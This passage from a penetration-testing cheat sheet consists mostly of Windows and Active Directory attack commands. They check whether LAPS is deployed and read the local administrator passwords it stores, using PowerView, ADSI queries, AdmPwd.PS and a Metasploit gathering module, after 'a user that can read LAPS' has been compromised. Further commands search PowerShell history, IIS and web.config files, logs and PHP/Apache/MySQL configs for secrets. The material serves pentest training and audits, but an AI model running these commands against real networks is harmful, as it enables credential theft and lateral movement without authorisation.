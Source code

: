 [^1]: https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps

```bash
# Identify if installed by Program Files on Domain Controller
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\Admpwd.dll'

# Identify if installed by checking the AD Object
Get-ADObject 'CN=ms-mcs-admpwd,CN=Schema,CN=Configuration,DC=DC01,DC=Security,CN=Local'

# Powerview
Get-NetComputer | Select-Object 'name','ms-mcs-admpwd'
Get-DomainComputer -identity <Hostname> -properties ms-Mcs-AdmPwd

# PowerShell
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'

# Native
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { Write-Host "" ; $_.properties.cn ; $_.properties.'ms-mcs-admpwd'}

# Import module
Import-Module AdmPwd.PS

# Find the OUs that can read LAPS passwords
Find-AdmPwdExtendedRights -Identity <OU>

# Once we have compromised a user that can read LAPS
Get-AdmPwdPassword -ComputerName <Hostname>

# Metasploit
use post/windows/gather/credentials/enum_laps

# LAPSToolkit
Resource: https://github.com/leoloobeek/LAPSToolkit
```

## Interesting Files and Sensitive Information

```powershell
# Powershell history
Get-PSReadlineOption
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# If the server is an IIS webserver, what’s in inetpub? Any hidden directories? web.config files?
dir /a C:\inetpub\
dir /s web.config
C:\Windows\System32\inetsrv\config\applicationHost.config

Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue

# What’s in the IIS Logs?
C:\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\W3SVC2\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC1\u_ex[YYMMDD].log
C:\inetpub\logs\LogFiles\FTPSVC2\u_ex[YYMMDD].log

# Is XAMPP, Apache, or PHP installed? Any there any XAMPP, Apache, or PHP configuration files?
dir /s php.ini httpd.conf httpd-xampp.conf my.ini my.cnf
Get-Childitem –Path C:\ -Include php.ini,httpd.conf,httpd-xampp.conf,my.ini,my.cnf -File -Recurse -ErrorAction SilentlyContinue

```

[^2]: [Unquoted Service Paths](Unquoted%20Service%20Paths.md)